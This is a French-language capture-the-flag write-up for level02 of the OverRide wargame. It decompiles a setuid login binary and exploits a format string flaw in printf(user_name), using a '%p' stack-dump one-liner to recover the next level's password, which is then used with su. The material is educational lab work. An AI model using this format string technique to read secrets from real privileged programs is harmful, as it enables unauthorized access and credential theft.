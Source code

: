 Je commence par analyser mon environnement :

```
$ id && pwd && ls -la
uid=1002(level02) gid=1002(level02) groups=1002(level02),100(users)
/home/users/level02
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
```

Je trouve un binaire `level02`, que je tente d'éxecuter :

```
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: dab
--[ Password: bad
*****************************************
dab does not have access!
```

Je tente de décompiler le binaire avec [Dogbolt](hhttps://dogbolt.org/?id=60c28629-ef06-4d6a-aa25-bf54ea99c497#Hex-Rays=28) :

```c
int main(int argc, const char **argv)
{
  char password[100]; // [rsp+10h] [rbp-110h] BYREF
  char flag[41]; // [rsp+80h] [rbp-A0h] BYREF
  char user_name[100]; // [rsp+B0h] [rbp-70h] BYREF
  int pass_len; // [rsp+114h] [rbp-Ch]
  FILE *stream; // [rsp+118h] [rbp-8h]

  memset(user_name, 0, 100);
  memset(ptr, 0, 41);
  memset(password, 0, 100);

  stream = 0;
  pass_len = 0;

  stream = fopen("/home/users/level03/.pass", "r");

  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }

  pass_len = fread(flag, 1, 41, stream);

  flag[strcspn(flag, "\n")] = 0;

  if ( pass_len != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    exit(1);
  }

  fclose(stream);

  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");

  printf("--[ Username: ");
  fgets(user_name, 100, stdin);
  user_name[strcspn(user_name, "\n")] = 0;

  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;

  puts("*****************************************");

  if ( strncmp(flag, password, 41) )
  {
    printf(user_name);
    puts(" does not have access!");
    exit(1);
  }

  printf("Greetings, %s!\n", user_name);
  system("/bin/sh");

  return 0;
}
```

Comme précédemment dans `Rainfall`, il est ici question d'exploiter le `printf(user_name)`. En effet, `printf` sans argument et qui lit le user input est un exploit qu'on appelle "[format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack)".

Ici, il pourrait s'agir d'utiliser cet exploit afin de lire la valeur de la variable "flag" puisqu'elle contient le password et qu'elle est dans la stack.

Je ne peux pas utiliser de `break` dans `gdb` pour investiguer où se trouve la valeur de `flag` dans la stack car `gdb` n'a pas les droits de lire le fichier `.pass` et je ne peux donc pas `run` ce binaire.

Je vais donc "bruteforcer" la lecture de la stack au travers d'un petit script python :

```
$ python -c 'print("%p " * 100)'| ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) ->[0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d]<- (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

J'ai autant d'adresse si je tente avec 200, je peux donc raisonnablement imaginer que j'ai imprimé toute la stack.

Je tente une conversion HEX -> ASCII des adresses les plus suspicieuse (que j'ai mis entre crochet) :

```
0x756e505234376848 -> Hh74RPnu
0x45414a3561733951 -> Q9sa5JAE
0x377a7143574e6758 -> XgNWCqz7
0x354a35686e475873 -> sXGnh5J5
0x48336750664b394d -> M9KfPg3H
```

Cela ressemble donc fort à un mot de passe, je le tente : 

```
$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

level03@OverRide:~$
```